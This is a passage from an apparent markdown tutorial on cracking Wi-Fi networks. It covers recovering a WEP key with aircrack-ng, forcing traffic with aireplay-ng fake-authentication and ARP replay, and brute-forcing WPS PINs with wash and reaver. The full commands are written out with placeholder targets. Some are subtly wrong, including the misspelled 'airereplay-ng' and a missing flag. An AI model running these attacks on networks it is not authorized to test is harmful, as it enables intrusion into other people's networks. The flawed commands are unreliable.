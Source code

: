         KEY FOUND! [ 41:73:32:33:70 ] (ASCII: As23p)
    Decrypted correctly: 100%

As seen in the previous example `41:73:32:33:70` is the key, and `ASCII:As23p` the clear text password. To use the key, when you don't see the clear text (ascii) password, remove all colons so that the key become this `4173323370` and use that, and it should work.

### Arp attack 

This technique is required if there's not enough WEP traffic and to force to make some kind of traffic so that we can capture enough packets/IVs.

To do so, first you need to be connected (not associated) to the AP.

    airereplay-ng --fakeauth 0 -a <mac-of-AP> -h <mac-of-wireless-adapter> mon0

Then will see with `aircrack-ng` that your are connected to the APP.

So now it's time to ARP replay:

````commandline
airereplay-ng --arpreplay -b <mac-of-AP> -h <mac-of-wireless-adapter> mon0
````

Then we need to wait that `aireplay` capture an ARP packet. Once it has got one it will force the AP to resend it over and over.

Of course, you need to capture all the packets like a standard sniffing like previously done.

## WPS attack

A lot of routers do have the WPS feature. If the router is badly configured, we can make use of that vulnerability.

**This only works if the router is configured not to use the PBC (Push Button Authentication).**

*The cracking process take an average of 10 hours.*

First scan to see which AP do make use of WPS:

````commandline
wash --interface wlan0
````

Brut force the pin to try to get the WPA key

````commandline
reaver --bssid <mac-target> --channel <number> --interface wlan0 -vvv --no-associate
````

*Some newer `reaver` version has some bug and fails, so it could be we need to download and use an older version of `reaver`*

Then we need to fake auth, every 30 seconds:

````commandline
aireplay-ng --fakeauth 30 -a <mac-target> <mac-of-wireless-adapter> wlan0
````

## WPA and WPA2 Cracking
